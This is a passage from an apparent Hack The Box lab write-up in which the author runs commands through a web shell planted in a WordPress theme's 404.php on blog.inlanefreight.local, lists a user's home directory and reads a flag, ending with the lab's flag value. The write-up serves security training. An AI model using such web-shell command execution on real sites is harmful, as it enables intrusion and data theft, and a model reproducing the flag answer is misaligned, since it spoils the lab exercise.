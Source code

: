 ```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

We get this:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works, let's read `/home/erika` directory:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls+/home/erika"

d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

Found our flag, let's read it:

```
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"

HTB{w0rdPr355_4SS3ssm3n7}
```

Our final flag is:

```
HTB{w0rdPr355_4SS3ssm3n7}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220145253.png)


